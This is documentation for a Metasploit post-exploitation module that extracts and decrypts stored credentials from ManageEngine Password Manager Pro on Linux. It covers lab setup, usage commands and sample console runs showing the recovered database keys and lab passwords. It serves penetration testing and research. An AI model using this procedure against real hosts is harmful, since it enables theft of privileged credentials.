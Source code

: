 ## Vulnerable Application

This post module gathers ManageEngine's Password Manager Pro credentials from
the local database. This information is encrypted but all the key materials can
be extracted from the application configuration files and the database itself.

This module simply starts to retrieve the database password, the database
encryption key and the data encryption key, which is used to decrypt passwords
also stored in the database. The result is displayed and stored in the
Metasploit database.

For now, only Linux hosts are supported. This module has been tested with
Password Manager Pro versions 10.5.0 (build 10501) and 12.1.0 (build 12123),
both installed on Ubuntu 20.04.4 (x64).

### Installation

Download `ManageEngine_PMP_64bit.bin` from one of the versions at
https://archives2.manageengine.com/passwordmanagerpro/ and run the installer as
root.

For example:
```
$ curl -O https://archives2.manageengine.com/passwordmanagerpro/12123/ManageEngine_PMP_64bit.bin
$ chmod a+x ManageEngine_PMP_64bit.bin
$ ./ManageEngine_PMP_64bit.bin
```
Follow the step-by-step instructions as they appear on the screen. Enter any
location for the installation base path and select "High availability primary
server".

First, launch Password Manager Pro (PMP) in standalone mode. Depending on the
version, it is sometimes required to accept the License Agreement and select
the license type. If it is the case, select the Free license (`f`).
```
$ cd <installation base path>/bin/
$ ./wrapper ../conf/wrapper_lin.conf
```

Once the first time boot process is finished, access the following URL to make
sure it works: https://127.0.0.1:7272

You can test the module with PMP in standalone mode or continue for a service
installation:
Stop PMP (`Ctrl-C`) and run:
```
$ bash ./pmp.sh install
$ /etc/init.d/pmp-service start
```
PMP will run in the background and logs are located in the `<installation base path>/logs`
folder.

You can refer to the vendor [documentation](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html).

### Setup

To properly test this module, some resources and accounts will need to be added to the database:
1. Access https://127.0.0.1:7272 and login as the main administrator with the default credentials (`admin`:`admin`):
1. Go to the `Resources` section on the left hand panel.
1. In the main panel, select `Add Resource` and `Add Manually`
1. Fill in the required fields (select any type of resource) and click `Save & Proceed`
1. Start adding accounts to this resource by filling the necessary fields and click `Add`
1. Once you have some accounts added, click `Save`
1. Repeat the process to add other resources/accounts


## Verification Steps

1. Install the application (see #Installation)
1. Start msfconsole
1. Get a session
1. Do: `use post/linux/gather/password_manager`
1. Do: `run verbose=true session=1`
1. **Verify** the installation is correctly detected
1. **Verify** all the key material is retrieved
1. **Verify** all the accounts are enumerated with their decrypted password
1. Do: `creds`
1. **Verify** the credentials are correctly stored in the database

To test the installation path detection logic, you can repeat the process with
PMP launched both in standalone mode and as a service.

Also, this is interesting to test with both a shell and Meterpreter sessions.

Note that an issue in Meterpreter makes the service detection logic fail to
detect the installation path. The other process detection works normally, so it
doesn't block the module execution.

## Options

### INSTALL_PATH

The Password Manager Pro installation path. If not provided, the module will
try its best to detect it.

### PG_HOST

The PostgreSQL host. Password Manager Pro run PostgreSQL locally by default, so
the default value is `127.0.0.1`.

### PG_PORT

The PostgreSQL port. Default is 2345.

## Scenarios

### Meterpreter session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf6 post(linux/gather/password_manager) > run verbose=true session=1

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[-] `/etc/init.d/pmp-service` is not a symlink and the installation path cannot be detected
[*] Trying to detect path from the Password Manager related processes
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Account Notes    Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf6 post(linux/gather/password_manager) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```

### Shell session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf6 post(linux/gather/password_manager) > run verbose=true session=2

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Account Notes    Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf6 post(linux/gather/password_manager) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```
